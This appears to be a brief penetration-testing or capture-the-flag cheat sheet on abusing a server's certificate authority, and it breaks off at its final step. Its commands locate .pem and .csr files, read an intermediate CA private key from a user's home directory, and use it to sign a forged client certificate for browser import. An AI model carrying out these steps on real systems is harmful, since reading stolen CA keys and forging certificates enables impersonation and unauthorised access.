


# SSL certificat attack

## SSL certificat attack

### 1\) Search for certificat on the server :

`find / -iname “*.csr” -type f`

OR

`find / -iname '*.pem*' -type f`

### 2\) Download the certificat and open it with openssl :

`openssl x509 -in 1000.pem -text`

\(check for issuer and subject\)

### 3\) Get the public key \(.cert\) and the private key :

`/home/bob/ca/intermediate/certs/intermediate.cert.pem`

`cat /home/bob/ca/intermediate/private/intermediate.key.pem`

### 4\) Generate our own cert :

`openssl genrsa -out fortown.key 2048`

### 5\) Create a certificat Signing request :

`openssl req -new -key (my private key) -out my_key.csr`

### 6\) Sign the key:

`openssl x509 -req -in fortown.csr -CA intermediate.cert -CAkey intermediate.key -CAcreateserial -out fortown.pem -days 1024 -sha256`

### 7\) Transform the certificat to be able to import it in firefox or other :

`openssl pkcs12 -export -out fortown.pfx -inkey fortown.key -in fortown.pem -certfile intermediate.cert`

### 8\) Import the file the browser :

